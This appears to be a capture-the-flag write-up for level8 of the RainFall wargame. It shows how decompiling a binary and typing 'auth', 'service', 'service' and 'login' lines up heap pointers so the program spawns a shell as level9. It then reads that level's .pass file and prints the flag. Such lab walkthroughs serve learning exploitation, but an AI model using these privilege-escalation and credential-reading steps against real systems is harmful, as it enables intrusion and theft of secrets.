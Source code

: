 ### Download binary
``scp -P4242 level8@192.168.31.170:/home/user/level8/level8 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

We try to understand what is happening. We quickly find that the goal is to write in a precise memory space.
The whole program is in a loop that work like this : you see the adress of two pointer, then you can write a keyword.
By analyzing the source code we find 3 keywords that allow us to write to different memory space.

There is :
-auth : Increment the adress of the pointer inside the first space by 16, or set it to ``0x804a008`` if it's empty (Note that for it to work you need to put a space after the word auth).

-service : Increment the adress of the pointer inside the second space by 16, or set it to ``0x804a018`` if it's empty.

-login : If the first space is nil, segfault, else if the right condition is set launch a ``/bin/bash``, if not just print ``Password:``.

After many try and main annalysis we found that for login to give us /bin/bash the second pointer need to be 32 bit higher than the first.
For example if the first is ``0x804a008`` then the second need to be ``0x804a028``.

**hint : to compile source.c, don't forget the -m32 flag. Else, each malloc will be *2 greater in 64 bits !**

----

### Building the payload

We want to achieve the setup that we explain :

``0x804a008`` In the first and
``0x804a028`` in the second.

So :

**Launching the binnary**

``level8@RainFall:~$ ./level8``
>(nil), (nil)

**Setting the first memory space**

``auth ``
>0x804a008, (nil)

**Setting the second memory space**

``service``
>0x804a008, 0x804a018

**Incrementing the second memory space**

``service``
>0x804a008, 0x804a028

**Get our /bin/bash**

``login``
>$

``whoami``
>level9

----

#### Getting the flag

``$ cat /home/user/level9/.pass``
>c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
